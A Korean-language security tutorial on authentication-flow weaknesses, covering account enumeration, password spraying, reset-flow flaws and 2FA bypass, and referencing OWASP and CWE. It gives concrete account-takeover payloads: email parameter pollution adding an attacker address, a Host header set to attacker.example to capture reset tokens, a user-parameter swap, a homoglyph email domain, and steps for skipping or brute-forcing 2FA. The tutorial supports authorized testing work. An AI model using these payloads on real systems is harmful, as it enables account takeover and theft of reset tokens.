

> 인증 취약점의 대부분은 암호학이 아니라 **흐름 설계**의 허점이다. "맞는 비밀번호를 아는가"보다, 검증을 건너뛸 수 있는지·반복해도 안 막히는지·응답이 정보를 흘리는지를 본다.

## 개념

인증 흐름은 사용자명 입력 → 비밀번호 검증 → (2FA) → 세션 발급 → 로그인 유지로 이어지고, 분실 시 재설정 경로로 빠진다. 정상 경로(로그인)는 잘 검토되지만 **실패 처리와 재설정 경로**는 덜 검토되어 우회로가 되기 쉽다. "로그인은 튼튼한데 재설정이 약하다"가 가장 흔한 패턴이다.



- **계정 열거**: 존재/미존재 계정에서 응답(문구·상태코드·길이·시간)이 달라 사용자 목록이 샌다. 로그인·가입·재설정 세 화면을 같이 본다.
- **무차별 대입·스프레이**: 계정당 실패 횟수가 낮은 비밀번호 스프레이는 계정 단위 잠금만으로 못 막는다.
- **2FA 결함**: 단계 건너뛰기, 검증 대상이 세션이 아닌 파라미터, 코드 무차별 대입.
- **재설정 결함**: 예측 가능한 토큰, 토큰과 계정 미결합, Host 헤더 주입, 파라미터 오염.

## 공격·우회 구문

점검은 허가된 범위, 테스트 계정으로 하고 시도 횟수는 상한을 둔다.

### 계정 열거

```
존재할 법한 이름 vs 임의 문자열 → 응답 문구·상태코드·바이트 길이·응답 시간 비교
가입/재설정 화면의 "이미 사용 중인 이메일" 메시지
반복 실패 시 존재하는 계정만 잠금 메시지가 달라지는지
```

### 비밀번호 재설정 — 파라미터/배열 오염

재설정 요청의 이메일 파라미터에 공격자 주소를 추가로 끼워 넣어, 재설정 링크가 공격자에게도 발송되게 한다.

```
email=victim@example.com&email=attacker@example.com
email[]=victim@example.com&email[]=attacker@example.com
{"email":["victim@example.com","attacker@example.com"]}
```

최종 단계에서 토큰 대신 `user` 파라미터를 신뢰하면 대상 계정을 바꾼다.

```
# 1단계는 본인 토큰, 최종 POST에서 대상만 교체
token=<본인토큰>&user=victim
```

### Host 헤더 주입

메일 링크 도메인을 요청 Host로 만들면, 피해자에게 공격자 도메인 링크가 가고 클릭 시 토큰이 넘어온다.

```
POST /reset HTTP/1.1
Host: attacker.example
...
→ 메일 링크: https://attacker.example/reset?token=...
```

### punycode 계정 탈취

재설정·가입이 이메일을 정규화할 때, 유사 문자(동형이의) 도메인이 피해자 도메인으로 접히면 메일이 공격자에게 간다.

```
victim@exɑmple.com   # 'a'(U+0251) → 정규화 시 example.com 으로 취급되는지
```

### 2FA 우회

```
비밀번호 통과 후 2FA 페이지를 건너뛰고 로그인 후 URL로 직접 접근
2단계 요청의 user=victim 로 다른 사용자 코드 검증으로 교체
틀린 코드 연속 제출 → 차단 전 횟수 확인, 차단 후 새 세션 재발급으로 카운터 초기화되는지
```

## 참고 자료

- [OWASP Authentication Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
- [OWASP Forgot Password Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html)
- [CWE-307: Improper Restriction of Excessive Authentication Attempts](https://cwe.mitre.org/data/definitions/307.html)
- [CWE-640: Weak Password Recovery Mechanism](https://cwe.mitre.org/data/definitions/640.html)
